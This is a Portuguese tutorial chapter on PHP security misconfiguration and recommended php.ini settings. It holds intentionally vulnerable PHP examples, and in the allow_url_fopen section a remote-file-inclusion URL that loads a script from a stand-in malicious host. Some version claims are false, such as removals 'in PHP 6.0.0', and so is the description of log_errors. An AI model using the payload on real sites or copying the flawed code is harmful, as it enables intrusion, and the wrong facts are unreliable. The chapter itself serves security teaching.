

Configurações incorretas de segurança podem ocorrer na aplicação web, no servidor web, no módulo do PHP, no framework,
em bancos de dados e em todo componente necessário para que a aplicação funcione corretamente. Quando atualizações não
são instaladas, quando os softwares não são devidamente configurados, quando usuários e senhas que ativam o software são
mantidas, temos então, a ocorrência da vulnerabilidade de Configuração Incorreta de Segurança. Ela deve ser evitada com
os esforços conjuntos de programadores e administradores uma vez que não diz respeitos à apenas o código fonte da aplicação.

A exploração é considerada fácil pois o atacante utiliza-se, por exemplo, de contas criadas por padrão na instalação de
sistemas. O impacto é moderado pois, uma vez que esta vulnerabilidade é explorada, pode comprometer por completo todo
o sistema, a tabela abaixo sintetiza a classificação do risco.




Exemplo de aplicação vulnerável
---

Suponha que a aplicação utilize framework's como [CideIgniter](http://www.codeigniter.com/) ou
[Cake](http://cakephp.org/), por exemplo. Vulnerabilidades XSS são encontradas e uma atualização é
lançada para corrigir o problema. Até que o framework não seja atualizado, atacantes poderão explorar as
vulnerabilidades da aplicação.

Outro exemplo seria quando os dados e os componentes padrões necessários para a instalação de uma aplicação, banco de
dados ou componente são instalados automaticamente e não são removidos. Um atacante poderá descobrir as páginas de
administração no servidor e autenticar-se utilizando o usuário e senha padrão da instalação e tomar controle sobre a
aplicação e/ou servidor.


Mais um exemplo seria quando a listagem dos diretórios não fora desativada. Um atacante, percebendo essa vulnerabilidade,
poderá listar os diretórios da aplicação e encontrar outras vulnerabilidades.

Ainda como exemplo, a configuração e/ou codificação de uma aplicação expõe, indevidamente, os erros ou outras informações
sobre o sistema ou o servidor. O atacante utilizará essa informação para encontrar e explorar vulnerabilidades potenciais.
O código 6.1 ilustra a exposição desnecessária de erros. Na linha 02 é feita a tentativa de conexão com o banco de dados
 e o resultado é armazena na variável `$link`. A linha 03 testa a variável `$link`, caso o valor seja `false` o script
executa a linha 04 que, por sua vez, interrompe a execução do script através da função `die()`. Esta função aceita um
parâmetro do tipo string e exibe esse valor no navegador. No exemplo será enviado ao navegador o resultado da função
`mysql_error()`.

```php
<?php
$link = mysql_connect('localhost', 'mysql_user', 'mysql_password');
if (!$link) {
    die( mysql_error() );
}
?>
```

Importante notar que a não utilização da função `die()` não sanaria o problema por completo. Se o módulo de PHP estiver
configurado para exibir erros, uma mensagem como a mostrada no código abaixo a seguir seria exibida, entregando, dessa
forma, informações valiosas para o atacante como o servidor e o usuário.

    Warning mysql_connetc()[function.mysql-connect]: Access denied for user 'usuario'@'192.168.2.101'
    (using password: YES) in /www/html/appweb/admin.php on line 7


Prevenção
---

Para garantir a prevenção da aplicação web contra esta vulnerabilidades é preciso entender e compreender as configurações
do módulo PHP. O capítulo de configurações do projeto Guia de Desenvolvimento da OWASP traz recomendações específicas
para cada configuração do módulo PHP (OWASP Development Guide: Chapter on Configuration, 2010).

A diretiva __register_globals__ vem com valor padrão `off` (desabilitado) desde a versão 4.2.5. Ela tornou-se obsoleta a
partir da versão 5.3.0 e foi removida na versão 6.0.0. Essa diretiva, quando habilitada, cria variáveis de vários tipos,
inclusive variáveis oriundas de formulários HTML. Isso significa que é possível usar variáveis sem saber de onde elas
vieram. Variáveis internas que são definidas no script se misturam com dados enviados pelos usuários. Segundo o manual
do PHP, a diretiva em si não é insegura, o uso incorreto dela é que é. Conforme o código abaixo, na linha 02 o resultado
da função `usuario_autenticado()` é testado. Se verdadeiro é atribuído `true` a variável `$autorizado`. Na linha 06 é
testado o valor da variável `$autorizado`, se verdadeiro o script segue sua execução normalmente, acreditando-se que o
usuário foi realmente autenticado.

```php
<?php
if (  usuario_autenticado()  ) {
    $autorizado = true;
}

if ($autorizado) {
    include "/dados/autamentes/sensiveis.php";
}
?>
```

Estando o valor da diretiva __register_globals__ igual a `on` (habilitada) a variável `$autorizado` seria facilmente
manipulada. Alterando o valor para `off` o código funcionário corretamente (isento da vulnerabilidade). Outra forma de
concertar o código seria inicializar a variável antes do uso, neste caso o código funcionaria independentemente do
estado de register_globals.

O __safe_mode__ é um conjunto de restrições de funções e pode realmente aumentar a segurança em um ambiente de servidor
compartilhado. Ela foi removida na versão 6.0.0 por ser considerado, arquiteturalmente, incorreto resolver esse
problema (servidores compartilhados) no nível de módulo do PHP.

A diretiva __disable_functions__ permite desabilitar funções internas do PHP. Ela recebe uma lista de nomes de funções
separadas por virgula. Ela não é afetada pela diretiva `safe_mode` e deve ser configurada diretamente no arquivo `php.ini`
não sendo possível efetuar a configuração no arquivo `httpd.conf`.


A diretiva __open_basedir__ limita os arquivos que podem ser abertos ao diretório especificado e seus subdiretórios,
incluindo o arquivo em si. Essa diretiva não é afetada pelo estado do modo seguro (safe mode), esteja este habilitada
ou não.

A diretiva __allow_url_fopen__ ativa o dispositivo URL-aware fopen wrappers que permite o acesso a objetos URL como
arquivos. Se esta diretiva estivar habilitada o atacante poderá executar arquivos externos como a demonstra o código
abaixo.

    http://www.appvulneravel.com/index.php?pg=http://sitemalicioso.com/atacar.php

Com a diretiva __error_reporting__ é possível determinar quais os erros, mensagens e avisos o PHP registrará. A
recomendação é `E_ALL`, dessa forma, todos os erros e mensagens de alerta (exceto os de nível `E_SRICT`) serão reportados.

A diretiva __log_errors__ refere-se ao nome do arquivo onde os erros do script serão logados.


A diretiva __display_errors__ determina se os erros serão ou não exibidos em tempo de execução. A recomendação é `off`
(desabilitado) para ambiente de produção e `on` (habilitado) para ambiente de desenvolvimento.

A diretiva __magic_quotes_gpc__ define o estado para as aspas mágicas para operações do tipo `GPC` (get, post e cookie).
Quando as aspas mágicas estiverem em `on`, todas `'` (aspas simples), `"` (aspas duplas), `\` (barras invertidas) e `NULL's`
são codificados (escapados) com uma barra invertida automaticamente. A recomendação da OWASP é que seu valor seja `on`
(habilitado), porém esta função está obsoleta na versão 5.3.0 e foi removida da versão 6.0.

A diretiva __post_max_size__ determina o valor máximo de dados que poderá ser enviado para o servidor. Deve ser mantido
o valor mínimo. Por padrão é `8mb`.

A diretiva __upload_max_filesize__ define o tamanho máximo de um arquivo enviado, medido em bytes, deve ser mantido o
valor mínimo.

A diretiva __memory_limit__ configura o tamanho máximo de memória utilizada por um script. Isto evita, por exemplo, que
 um script malicioso consuma toda memória disponível em um servidor.


